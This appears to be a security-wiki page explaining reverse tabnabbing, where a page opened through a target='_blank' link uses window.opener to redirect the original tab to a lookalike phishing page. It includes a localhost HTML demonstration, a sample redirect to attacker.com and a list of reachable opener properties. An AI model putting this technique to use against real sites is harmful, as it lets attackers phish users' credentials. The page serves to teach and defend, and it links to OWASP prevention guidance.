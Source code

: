 # Reverse Tab Nabbing

{{#include ../banners/hacktricks-training.md}}

## Description

In a situation where an **attacker** can **control** the **`href`** argument of an **`<a`** tag with the attribute **`target="_blank" rel="opener"`** that is going to be clicked by a victim, the **attacker** **point** this **link** to a web under his control (a **malicious** **website**). Then, once the **victim clicks** the link and access the attackers website, this **malicious** **website** will be able to **control** the **original** **page** via the javascript object **`window.opener`**.\
If the page doesn't have **`rel="opener"` but contains `target="_blank"` it also doesn't have `rel="noopener"`** it might be also vulnerable.

A regular way to abuse this behaviour would be to **change the location of the original web** via `window.opener.location = https://attacker.com/victim.html` to a web controlled by the attacker that **looks like the original one**, so it can **imitate** the **login** **form** of the original website and ask for credentials to the user.

However, note that as the **attacker now can control the window object of the original website** he can abuse it in other ways to perform **stealthier attacks** (maybe modifying javascript events to ex-filtrate info to a server controlled by him?)

## Overview

### With back link

Link between parent and child pages when prevention attribute is not used:

![https://owasp.org/www-community/assets/images/TABNABBING_OVERVIEW_WITH_LINK.png](https://owasp.org/www-community/assets/images/TABNABBING_OVERVIEW_WITH_LINK.png)

### Without back link

Link between parent and child pages when prevention attribute is used:

![https://owasp.org/www-community/assets/images/TABNABBING_OVERVIEW_WITHOUT_LINK.png](https://owasp.org/www-community/assets/images/TABNABBING_OVERVIEW_WITHOUT_LINK.png)

### Examples <a href="#examples" id="examples"></a>

Create the following pages in a folder and run a web server with `python3 -m http.server`\
Then, **access** `http://127.0.0.1:8000/`vulnerable.html, **click** on the link and note how the **original** **website** **URL** **changes**.

```html:vulnerable.html
<!DOCTYPE html>
<html>
<body>
<h1>Victim Site</h1>
<a href="http://127.0.0.1:8000/malicious.html" target="_blank" rel="opener">Controlled by the attacker</a>
</body>
</html>
```

```html:malicious.html
<!DOCTYPE html>
<html>
 <body>
  <script>
  window.opener.location = "http://127.0.0.1:8000/malicious_redir.html";
  </script>
 </body>
</html>
```

```html:malicious_redir.html
<!DOCTYPE html>
<html>
<body>
<h1>New Malicious Site</h1>
</body>
</html>
```

### Accessible properties <a href="#accessible-properties" id="accessible-properties"></a>

In the scenario where a **cross-origin** access occurs (access across different domains), the properties of the **window** JavaScript class instance, referred to by the **opener** JavaScript object reference, that can be accessed by a malicious site are limited to the following:

- **`opener.closed`**: This property is accessed to determine if a window has been closed, returning a boolean value.
- **`opener.frames`**: This property provides access to all iframe elements within the current window.
- **`opener.length`**: The number of iframe elements present in the current window is returned by this property.
- **`opener.opener`**: A reference to the window that opened the current window can be obtained through this property.
- **`opener.parent`**: This property returns the parent window of the current window.
- **`opener.self`**: Access to the current window itself is provided by this property.
- **`opener.top`**: This property returns the topmost browser window.

However, in instances where the domains are identical, the malicious site gains access to all properties exposed by the [**window**](https://developer.mozilla.org/en-US/docs/Web/API/Window) JavaScript object reference.

## Prevention

Prevention information are documented into the [HTML5 Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/HTML5_Security_Cheat_Sheet.html#tabnabbing).

## References

- [https://owasp.org/www-community/attacks/Reverse_Tabnabbing](https://owasp.org/www-community/attacks/Reverse_Tabnabbing)

{{#include ../banners/hacktricks-training.md}}



